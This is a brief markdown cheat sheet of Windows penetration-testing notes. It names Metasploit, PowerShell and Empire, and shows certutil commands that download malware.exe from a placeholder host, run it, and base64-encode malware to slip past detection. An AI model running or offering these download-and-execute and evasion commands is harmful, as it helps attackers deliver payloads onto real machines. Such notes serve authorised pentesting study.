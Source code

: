 # Windows Pentest Notes
## Table of Contents
[Useful Tools](#Useful-Tools)
[Certutil](#Certutil-abuse)




### Useful Tools
`metasploit` of course

and `powershell` is always your best friend

`empire` for creating malicious pwershell script, avalible on [github](https://github.com/EmpireProject/Empire)

### Certutil abuse
#### Download files & execute
`certutil.exe -urlcache -split -f http://www.example.com/malware.exe`

then `malware.exe`
#### Hash Files
`certutil.exe -hashfile file`(SHA-1)

`certutil.exe -hashfile file SHA256/MD5` (for SHA-256 or MD5 Hash)
#### Files to baes64 code 
encode:

`certutil.exe -encode malware.exe malware.txt`

decode:

`certutil.exe -decode malware.txt malware.exe`
